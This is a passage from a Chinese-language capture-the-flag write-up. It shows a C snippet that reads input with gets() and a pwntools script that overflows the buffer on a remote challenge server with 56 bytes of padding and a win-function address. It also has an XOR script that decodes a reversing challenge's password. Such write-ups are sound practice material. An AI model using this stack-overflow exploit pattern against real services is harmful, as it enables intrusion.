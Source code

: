 ```c!
    if(choice[0] == 'y'){
        gets(username);
        puts("Congratulation, you're now the 1st VIP of Country Wahahabihal");
    }
    else {
        exit(0);
    }
    return 0;

}
```

* 有個 win function 直接讓你跳
* 還使用 gets 做 input 所以可以 BOF
* 所以去把 win 的位址找出來再蓋位置就好

> 我原本是蓋 0x28 個 A 但一直失敗卡了超久，最後暴力試到 segmentation fault 才蓋成功。

```python!
from pwn import *
import time

context.log_level = 'debug'
r = remote('23.146.248.36', 30004)

r.sendlineafter('you want', 'y')
time.sleep(1)
addr = 0x40121e

r.sendline(b'A'*56 + p64(addr))
r.interactive()
```

## Reverse

### Baby C

```bash!
保證簡單,輸入密碼就好 :D
所以說我現在在聽什麼呢?
Author: Whale120
```

* 寫個腳本把 password 解回來就好

```python!
a = [44, 48, 50, 59, 59, 3, 16, 12, 12, 8, 11, 66, 87, 87, 15, 15, 15, 86, 1, 23, 13, 12, 13, 26, 29, 86, 27, 23, 21, 87, 15, 25, 12, 27, 16, 71, 14, 69, 75, 32, 59, 46, 53, 75, 63, 75, 8, 22, 11, 5]
tar = 120
result = ""

for i in a:
    result += chr(i ^ tar)

print(result)
```
